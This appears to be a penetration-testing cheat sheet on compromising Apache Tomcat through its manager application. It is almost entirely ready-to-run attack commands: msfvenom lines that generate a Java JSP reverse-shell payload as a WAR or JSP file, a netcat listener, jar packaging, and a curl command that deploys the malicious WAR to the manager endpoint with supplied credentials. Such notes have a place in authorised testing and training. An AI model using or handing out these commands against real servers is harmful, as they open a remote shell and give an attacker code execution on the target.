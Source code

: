 ### Create war payload for reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f war > <file>.war
```

### Start listener 
```
nc -lvp <lport>
<domain>/manager/html > Select WAR file to upload > Deploy
Applications > Path > <file>
```

### Alternatively you can use a jsp file
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f raw > <file2>.jsp
```

### Convert jsp to war
```
jar -cvf <file>.war <file2>.jsp
```

### Upload file using curl
```
curl -T <file>.war -u "<user>:<password>" http://<rhost>:<rport>/manager/text/deploy?path=<file>
```

